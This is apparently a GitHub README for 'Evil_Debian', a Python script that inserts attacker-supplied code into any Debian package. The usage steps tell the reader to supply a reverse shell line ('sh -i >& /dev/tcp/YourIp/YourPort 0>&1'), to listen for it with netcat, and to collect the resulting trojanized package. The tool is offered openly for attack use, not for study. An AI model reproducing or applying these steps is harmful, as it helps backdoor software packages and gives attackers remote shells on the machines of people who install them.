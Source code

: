 # Evil_Debian
A Simple python Program for linux os to Put Your malicious Code inside any Debian Package  .

![evil_debian](https://user-images.githubusercontent.com/78493034/133919435-2d6c471d-31a4-41e5-92ef-2ca3745f2df5.png)


# Usage
1> Just Download this Script.


2> Then Go to the location were this script is stored .


3> Execute the following command-:  "chmod +x evil_debian.py"


4> This will change the mod of your file to executable.


5> Then just Run the script by executing this command-: "python3 evil_debian.py"


5> Then it will ask the location of you debian package
   you have to enter the full location of your debian file (It can be any debian file)
and after entering it will again ask for a input and there you can input any reverse shell , you can search reverse shell on google or


6> Just enter this > "sh -i >& /dev/tcp/YourIp/YourPort 0>&1"       enter you machine ip and the port u want to listen on


7> Then just listen to that port by executing this in a new terminal > "nc -lnvp YouPort"


8> and there a new file would be created named mailicious_package


9> and in that directory you will the same debian package that you entered before but in this one it has you malicious code


# Requirements

1> Python3


2> any Linux OS











*> For Any Help Contact me on Discord - Asad#2809

